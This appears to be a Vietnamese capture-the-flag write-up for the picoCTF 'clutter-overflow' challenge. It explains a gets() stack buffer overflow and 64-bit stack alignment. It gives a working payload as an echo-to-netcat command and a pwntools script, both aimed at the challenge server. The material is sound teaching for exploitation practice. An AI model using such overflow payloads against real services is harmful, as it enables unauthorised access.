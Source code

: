 # clutter-overflow

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi, stack alignment

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);

  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}

```

b) Nhận xét

- Chúng ta có thể dễ dàng thấy lỗi nằm ở hàm gets, hàm này không kiểm tra số lượng ký tự nhập vào dẫn đến lỗi tràn bộ đệm

## 2. Ý tưởng khai thác

- Khi code có giá trị bằng GOAL (tức là 0xdeadbeef) thì flag sẽ được in ra
- Mỗi khi chương trình chạy thì hệ điều hành sẽ cung cấp cho chương trình một vùng nhớ trên RAM dùng để lưu trữ các biến nội bộ, các giá trị trở về (giá trị của EIP), giá trị các thanh ghi,… gọi là vùng nhớ stack. Ở bài này, mô hình stack  trông như sau:

![image.png](image8.png)

- Stack ghi từ địa chỉ thấp lên địa chỉ cao (ở đây là từ dưới lên trên) nên ta sẽ ghi 256 ký tự để ghi đè biến clutter, gọi là padding. Sau đó ta cần ghi đè giá trị của biến code thành 0xdeadbeef
- Nhưng vì đây là chương trình 64 bits nên sẽ có sự căn chỉnh stack (stack alignment System V ABI): stack phải được căn chỉnh 16-byte trước khi gọi một hàm khác, tức là giá trị của con trỏ ngăn xếp RSP (stack pointer) phải chia hết cho 16. Ở đây hàm win có hai biến số là clutter chiếm 256 byte và code chiếm 8 byte. Tổng cộng là 264 byte. Nhưng vì 264 không chia hết cho 16 nên thay vì chiếm 264 byte thì hai biến này chiếm 272 byte (0x110 trong hex):

![image.png](image%201.png)

- Vậy vấn đề là clutter chiếm bao nhiêu byte và code chiếm bao nhiêu byte? Vấn đề này sẽ tùy thuộc vào compiler. Có nhiều cách để align stack, compiler nghĩ cách nào tốt thì sẽ chọn cái đó

Ví dụ compiler có thể align như thế này

```
rbp
code
clutter
pad
```

Hoặc thế này (re-ordering variables tại vì nó thích các biến hay access ở gần rbp nhất có thể)

```
rbp
pad
code
clutter
```

Hoặc nếu ta không sử dụng biến code thì một số compiler có thể không alloc biến đó luôn.

Và thậm chí compiler có quyền không thực hiện stack alignment, bù lại performance sẽ bị tệ.

~ ~ Fun note: stack frame cũng chỉ là 1 quy ước để dễ hơn trong việc phân vùng hàm (dọn dẹp dễ hơn, dễ debug hơn). Compiler thích thì nó có quyền bỏ luôn stack frame hoặc tự nghĩ ra 1 cái khác để phân vùng =)))

- Vậy cách tốt nhất là dùng tool để tìm padding

## 3. Tiến hành khai thác

1. Bước 1: Tìm padding bằng công cụ 
- Đầu tiên ta dùng [zerosum0x0: Overflow Exploit Pattern Generator - Online Tool](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) để genarate ra 300 ký tự:

![image.png](image%202.png)

![image.png](image%203.png)

- Ta thu được biến code có giá trị 0x6a41396941386941. Dùng CyberChef để dịch ngược sang ký tự ta được ký tự Ai8Ai9Aj:

![image.png](image%204.png)

- Vậy offset (khoảng cách) ở đây là 264:

![image.png](image%205.png)

b) Bước 2: Viết payload

- Payload sẽ gồm 264 padding và giá trị 0xdeadbeef. Trong little-edian thì 0xdeadbeef được viết là \xef\xbe\xad\xde

c) Bước 3: Viết payload

- Cách 1: truyền bằng pipe:
  + Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde
  + Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7\xef\xbe\xad\xde"; cat) | nc mars.picoctf.net 31890
```

![image.png](image%206.png)

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('mars.picoctf.net', 31890)
payload = b'a'*264 + p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

![image.png](image%207.png)

## 4. Kết luận

- Hiểu về cơ chế căn chỉnh stack trên hệ thống 64 bits. Những bài nâng cao sau này sẽ cần dùng kiến thức căn chỉnh stack nhiều hơn
